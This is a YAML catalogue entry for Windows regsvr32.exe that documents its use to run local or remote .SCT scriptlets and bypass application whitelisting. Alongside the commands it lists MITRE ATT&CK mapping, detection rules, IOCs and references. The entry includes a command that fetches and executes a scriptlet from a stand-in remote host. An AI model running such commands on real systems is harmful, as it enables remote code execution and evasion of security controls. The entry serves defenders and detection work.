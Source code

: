 ```yaml
---
Name: Regsvr32.exe
Description: Used by Windows to register dlls
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: regsvr32.exe /s /u /i:file.sct scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: regsvr32.exe /s /u /i:file.sct scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\regsvr32.exe
  - Path: C:\Windows\SysWOW64\regsvr32.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6fbce11094285e5ba13fe101b9cb70f5b1ece198/rules/windows/process_creation/win_susp_regsvr32_anomalies.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6d56e400d209daa77a7900d950a7c587dc0cd2e5/rules/windows/network_connection/sysmon_regsvr32_network_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/5951ad1d9a781a49d61df9af03c7b83ac67a0012/rules/windows/dns_query/dns_query_regsvr32_network_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_regsvr32_flags_anomaly.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/file_event/sysmon_susp_clr_logs.yml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/detect_regsvr32_application_control_bypass.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/execution_register_server_program_connecting_to_the_internet.toml
  - IOC: regsvr32.exe retrieving files from Internet
  - IOC: regsvr32.exe executing scriptlet (sct) files
  - IOC: DotNet CLR libraries loaded into regsvr32.exe
  - IOC: DotNet CLR Usage Log - regsvr32.exe.log
Resources:
  - Link: https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

